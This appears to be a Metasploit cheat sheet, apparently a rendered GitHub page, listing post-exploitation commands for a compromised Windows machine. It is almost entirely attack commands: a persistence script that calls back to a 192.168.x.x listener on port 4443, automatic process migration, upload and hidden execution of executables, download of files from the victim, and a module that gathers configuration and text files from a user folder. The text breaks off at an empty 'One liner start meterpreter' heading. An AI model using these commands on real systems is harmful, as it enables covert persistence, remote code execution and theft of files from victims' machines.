 # Metasploit

Create Persistence:

```bash
run persistence -U -i 5 -p 4443 -r 192.168.x.x
```

Auto Migration – Process jumping:

```bash
touch CommandsOnExecute.rc
echo run post/windows/manage/migrate
and inside metasploit, write:
set autorunscript /root/ CommandsOnExecute.rc
```

Files in Metasploit:
Upload files:

```bash
meterpreter > upload /path/to/file/in/kali/file.exe  c:\\\\remote\\\\path\\\\on windows
```

Exec files:

```bash
meterpreter > execute -f  "c:\\\\remote\\\\path\\\\on windows"
```

(execute -H for Hidden execution)

Download files:

```bash
meterpreter > download c:\\\\remote\\\\path\\\\on windows    /root/local/path/of/kali
```

Auto Internal File Enumeration:

```bash
use post/windows/gather/enum_files
set FILE_GLOBS *.conf OR *.rtf OR *.txt
set search_from c:\\\\users\\\\ptbox
set session [session_number]
run
```

One liner start meterpreter
